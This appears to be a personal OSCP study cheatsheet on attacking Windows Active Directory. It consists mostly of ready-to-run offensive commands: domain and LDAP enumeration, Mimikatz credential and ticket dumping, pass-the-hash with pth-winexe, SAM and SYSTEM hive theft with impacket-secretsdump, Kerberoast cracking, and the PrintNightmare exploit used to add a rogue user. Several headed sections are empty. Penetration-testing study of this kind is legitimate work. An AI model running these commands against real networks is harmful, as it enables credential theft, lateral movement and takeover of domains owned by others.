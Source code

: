 ```yaml
---
title: Active Directory
author: linatl
category: "OSCP"
date: "2021-03-14 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```



###### Basic Domain Enumeration Commands
```
> net user /domain
> net user some_admin /domain
> net group /domain
> net accounts

Powershell:
> [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrent
Domain()

```


###### 389 LDAP query's
```
> ldapsearch -LLL -x -H ldap://10.10.10.10 -b '' -s base '(objectclass=*)'
> ldapsearch -LLL -x -H ldap://10.10.10.10 -b 'DC=DOMAIN,DC=LOCAL'
```


###### Mimikatz
```
> .\mimikatz.exe
Then:
> privilege::debug
> sekurlsa::logonpasswords
> sekurlsa::tickets
> kerberos::list /export
> sekurlsa::logonpasswords
> sekurlsa::pth /user:some_admin /domain:domain.com /ntlm:hAsHPaRt2 /run:PowerShell.exe
```

###### HiveNightmare
```
https://github.com/GossiTheDog/HiveNightmare

Works on all supported versions of Windows 10, where System Protection is enabled (should be enabled by default in most configurations).
Check for vuln by checking if the patch for CVE-2021–36934 is installed, and by checking if system protection is enabled (with rstrui.exe ?)
```

###### Hashdump
```
Dumping SAM hashes from CMD:
https://miloserdov.org/?p=4129

reg save hklm\sam c:\sam
reg save hklm\system c:\system

Location:
C:/Windows/System32/config/SAM
C:/Windows/System32/config/SYSTEM

Dumping hashes from attack machine:
impacket-secretsdump domain.local/username@10.10.10.10 -just-dc
```


###### Responder
```

```

###### PowerView
```
> Import-Module .\PowerView.ps1
> Get-NetLoggedon -ComputerName computer1
> Get-NetSession -ComputerName dc01
```


###### Pass The Hash with CrackMapExec
```

```

###### Pass the Hash with PTH
```
> pth-winexe -U username%hAsHPaRt1:hAsHPaRt2 //10.10.10.10 cmd

```


###### Rubeus
```

```

###### Other Kerberos Commands
```
> klist

> python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt ticketname
```

###### Bloodhound
```

```


###### Zerologon
```

```

###### PrintNightmare
```
https://github.com/calebstewart/CVE-2021-1675/

Run with (in powershell):
> powershell -exec bypass -command "& { Import-Module .\CVE-2021-1675.ps1; Invoke-Nightmare; }"
> Invoke-Nightmare -NewUser "username" -NewPassword "password" -DriverName "PrintMe"
```
